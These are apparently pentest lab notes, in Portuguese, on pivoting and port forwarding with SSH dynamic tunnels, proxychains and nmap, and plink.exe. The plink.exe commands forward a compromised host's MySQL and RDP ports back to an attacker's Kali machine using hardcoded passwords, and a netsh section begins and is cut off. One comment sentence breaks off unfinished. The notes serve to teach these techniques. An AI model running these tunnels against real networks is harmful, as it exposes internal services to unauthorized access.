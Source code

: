 ### Dynamic Port Forwarding

    sudo ssh -nNT -o "StrictHostKeyChecking=no" -o "UserKnownHostsFile=/dev/null" -D 127.0.0.1:22 student@192.168.150.52 -p 222
    
    tail /etc/proxychains4.conf                                                                                                                                                                                                             
    #
    #       proxy types: http, socks4, socks5, raw
    #         * raw: The traffic is simply forwarded to the proxy without modification.
    #        ( auth types supported: "basic"-http  "user/pass"-socks )
    #
    [ProxyList]
    # add proxy here ...
    # meanwile
    # defaults set to "tor"
    socks4  127.0.0.1 1234
        
    
    proxychains nmap -sT -n -Pn 127.0.0.1 --open

OBS: Nesse caso o scan deve ocorrer na localhost, pois o serviço escuta somente na interface local! Mas vale considerar que estou realizando o scan na interface local do SERVER REMOTO. O que me surrpeendeu, porque eu não imaginei isso! De qualquer forma, é interessante levar em conta que eu sairia com o IP 


## Plink.exe

OBS: Sem interação

    plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
    
    plink.exe -ssh -l kali -pw R3dT3@m -R 192.168.49.120:1080:3389 192.168.49.120

OBS: Com interação

    cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

## netsh

netsh é uma utilidade que deve ser utilizada com privilégios elevados. Para o cenário do nosso teste, já com SYSTEM na máquina, não temos de lidar com UAC, portanto, podemos prosseguir com a condução dos testes. Primeiro devemos chegar se o serviço IP Helper está ativo:
